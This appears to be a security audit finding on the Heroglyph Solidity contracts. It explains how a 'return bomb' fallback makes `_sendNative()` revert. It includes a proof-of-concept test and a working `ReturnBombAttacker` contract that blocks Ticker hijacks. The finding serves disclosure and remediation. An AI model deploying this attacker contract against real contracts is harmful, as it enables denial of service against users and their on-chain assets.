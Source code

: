 #### Technical Details

A contract can be used to create/hijack a Ticker. If this contract implements a `fallback()` method that returns a huge amount of data, `_sendNative()` will revert when performing the low-level call to the contract. Note that the return data will be copied to memory even though it's not explicitly assigned to a variable in the code.

```solidity
function _sendNative(address _to, uint256 _amount, bool _revertIfFails) internal {
    if (_amount == 0) return;

    (bool success,) = _to.call{ value: _amount }("");

    if (!success) {
        if (_revertIfFails) revert FailedToSendETH();
        pendingClaims[_to] += _amount;
    }
}
```

PoC that can be placed inside [Ticker.t.sol](https://github.com/HeroglyphEVM/heroglyph/blob/7d1f83c821b72568c52d3a9737c5905f61c9cae3/test/unit/identity/Ticker.t.sol).

```solidity
function test_hijack_returnBomb() external pranking {
    address _attacker = address(new ReturnBombAttacker());
    deal(_attacker, COST);

    changePrank(_attacker);
    underTest.create{ value: COST }(tickerCreation);

    skip(underTest.protectionInSeconds());

    changePrank(user_B);
    uint256 sending = 32.22e18;
    underTest.hijack{ value: sending }(0, tickerCreation.name, 1e18);

    assertEq(underTest.ownerOf(1), user_B);
}
```

It should use the following `ReturnBombAttacker` contract to "returnbomb" the caller:

```solidity
contract ReturnBombAttacker {
    fallback(bytes calldata) external payable returns (bytes memory) {
        assembly{
            revert(0, 1000000000) // (gas: 8937393460516745140)
            // revert(0, 1000000) // (gas: 4_425_389)
            // revert(0, 0) // (gas: 326_511)
        }
    }
}
```
